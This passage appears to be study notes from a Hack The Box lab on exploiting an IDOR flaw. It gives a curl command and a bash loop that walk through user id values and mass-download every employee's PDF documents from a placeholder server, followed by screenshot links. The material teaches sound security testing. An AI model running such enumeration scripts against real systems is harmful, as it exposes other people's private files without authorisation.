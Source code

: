 ```shell-session
smoothment@htb[/htb]$ curl -s "http://SERVER_IP:PORT/documents.php?uid=3" | grep -oP "\/documents.*?.pdf"

/documents/Invoice_3_06_2020.pdf
/documents/Report_3_01_2020.pdf
```

Now, we can use a simple`for` loop to loop over the`uid` parameter and return the document of all employees, and then use`wget` to download each document link:

```bash
#!/bin/bash

url="http://SERVER_IP:PORT"

for i in {1..10}; do
 for link in $(curl -s "$url/documents.php?uid=$i" | grep -oP "\/documents.*?.pdf"); do
 wget -q $url/$link
 done
done
```

When we run the script, it will download all documents from all employees with`uids` between 1-10, thus successfully exploiting the IDOR vulnerability to mass enumerate the documents of all employees. This script is one example of how we can achieve the same objective. Try using a tool like Burp Intruder or ZAP Fuzzer, or write another Bash or PowerShell script to download all documents.


# Question
---
![Pasted image 20250217150006.png](../../../../IMAGES/Pasted%20image%2020250217150006.png)

Let's begin by visiting the website:

![Pasted image 20250217150148.png](../../../../IMAGES/Pasted%20image%2020250217150148.png)
